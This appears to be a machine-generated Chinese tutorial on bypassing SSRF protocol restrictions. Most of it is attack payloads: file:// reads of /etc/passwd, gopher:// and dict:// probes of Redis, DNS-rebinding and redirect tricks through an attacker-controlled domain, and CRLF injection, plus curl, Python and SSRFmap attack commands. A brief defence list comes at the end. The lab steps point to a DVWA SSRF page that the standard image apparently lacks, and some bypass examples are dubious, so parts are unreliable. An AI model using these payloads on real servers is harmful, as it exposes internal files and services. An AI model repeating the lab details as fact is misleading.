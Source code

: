 # SSRF协议限制绕过的攻击技术

## 1. 技术原理解析

### 1.1 SSRF概述

SSRF（Server-Side Request Forgery，服务器端请求伪造）是一种攻击者通过构造恶意请求，使服务器向内部或外部资源发起请求的攻击方式。SSRF通常用于绕过防火墙、访问内部服务或利用服务器作为代理进行攻击。

### 1.2 协议限制绕过机制

许多应用程序在实现SSRF防护时，会对请求的协议进行限制，例如只允许HTTP/HTTPS协议。攻击者通过利用协议限制的漏洞，可以绕过这些限制，使用其他协议（如file://、gopher://、dict://等）进行攻击。

### 1.3 底层实现机制

SSRF协议限制绕过的核心在于应用程序对用户输入的协议类型未进行严格校验或过滤。攻击者通过构造特殊的URL，利用应用程序的解析逻辑，使其误认为请求的协议是允许的，从而绕过限制。

## 2. 常见攻击手法和利用方式

### 2.1 协议混淆

攻击者通过构造特殊的URL，利用协议解析的漏洞，绕过协议限制。例如：

- **file://**：读取服务器本地文件
  ```bash
  http://example.com/vulnerable?url=file:///etc/passwd
  ```

- **gopher://**：发送任意TCP请求
  ```bash
  http://example.com/vulnerable?url=gopher://127.0.0.1:6379/_INFO
  ```

- **dict://**：发送任意TCP请求
  ```bash
  http://example.com/vulnerable?url=dict://127.0.0.1:6379/INFO
  ```

### 2.2 URL编码绕过

攻击者通过URL编码，绕过应用程序对协议的限制。例如：

```bash
http://example.com/vulnerable?url=http%3A%2F%2F127.0.0.1%3A8080
```

### 2.3 DNS重绑定

攻击者通过控制DNS解析，使服务器在请求时解析到内部IP地址，从而绕过IP限制。例如：

```bash
http://example.com/vulnerable?url=http://attacker-controlled-domain.com
```

### 2.4 利用302重定向

攻击者通过构造302重定向，使服务器请求内部资源。例如：

```bash
http://example.com/vulnerable?url=http://attacker-controlled-domain.com/redirect
```

### 2.5 利用CRLF注入

攻击者通过CRLF注入，构造恶意请求头，绕过协议限制。例如：

```bash
http://example.com/vulnerable?url=http://127.0.0.1%0d%0aX-Forwarded-For:%20127.0.0.1
```

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建

#### 3.1.1 使用Docker搭建实验环境

```bash
docker run -d -p 8080:80 vulnerables/web-dvwa
```

#### 3.1.2 配置DVWA

1. 访问`http://localhost:8080`
2. 登录（默认用户名：`admin`，密码：`password`）
3. 设置安全级别为`low`

### 3.2 攻击步骤

#### 3.2.1 协议混淆攻击

1. 访问`http://localhost:8080/vulnerabilities/ssrf/`
2. 输入`file:///etc/passwd`
3. 提交请求，查看服务器返回的本地文件内容

#### 3.2.2 URL编码绕过攻击

1. 访问`http://localhost:8080/vulnerabilities/ssrf/`
2. 输入`http%3A%2F%2F127.0.0.1%3A8080`
3. 提交请求，查看服务器返回的内容

#### 3.2.3 DNS重绑定攻击

1. 配置DNS解析，使`attacker-controlled-domain.com`解析到`127.0.0.1`
2. 访问`http://localhost:8080/vulnerabilities/ssrf/`
3. 输入`http://attacker-controlled-domain.com`
4. 提交请求，查看服务器返回的内容

#### 3.2.4 利用302重定向攻击

1. 在`attacker-controlled-domain.com`上配置302重定向到`http://127.0.0.1:8080`
2. 访问`http://localhost:8080/vulnerabilities/ssrf/`
3. 输入`http://attacker-controlled-domain.com/redirect`
4. 提交请求，查看服务器返回的内容

#### 3.2.5 利用CRLF注入攻击

1. 访问`http://localhost:8080/vulnerabilities/ssrf/`
2. 输入`http://127.0.0.1%0d%0aX-Forwarded-For:%20127.0.0.1`
3. 提交请求，查看服务器返回的内容

## 4. 实际命令、代码或工具使用说明

### 4.1 使用curl进行SSRF攻击

```bash
curl -v "http://localhost:8080/vulnerabilities/ssrf/?url=file:///etc/passwd"
```

### 4.2 使用Python进行SSRF攻击

```python
import requests

url = "http://localhost:8080/vulnerabilities/ssrf/"
payload = "file:///etc/passwd"
response = requests.get(url, params={"url": payload})
print(response.text)
```

### 4.3 使用Burp Suite进行SSRF攻击

1. 启动Burp Suite，配置代理
2. 访问`http://localhost:8080/vulnerabilities/ssrf/`
3. 输入`file:///etc/passwd`，提交请求
4. 在Burp Suite中查看请求和响应

### 4.4 使用SSRFmap工具进行自动化攻击

```bash
git clone https://github.com/swisskyrepo/SSRFmap.git
cd SSRFmap
python3 ssrfmap.py -r request.txt -p url
```

## 5. 防御措施

1. **严格校验协议**：只允许HTTP/HTTPS协议，禁止其他协议。
2. **白名单机制**：限制请求的目标地址，只允许访问特定的域名或IP地址。
3. **URL解析库**：使用安全的URL解析库，避免解析漏洞。
4. **输入过滤**：对用户输入进行严格的过滤和校验，避免特殊字符和编码绕过。
5. **网络隔离**：将服务器与内部网络隔离，限制服务器访问内部资源。

## 结论

SSRF协议限制绕过是一种常见的Web安全漏洞，攻击者通过构造特殊的URL，利用协议解析的漏洞，绕过应用程序的限制，访问内部资源或进行其他攻击。通过深入理解其技术原理和攻击手法，并采取有效的防御措施，可以有效减少SSRF协议限制绕过的风险。

---

*文档生成时间: 2025-03-12 09:35:50*
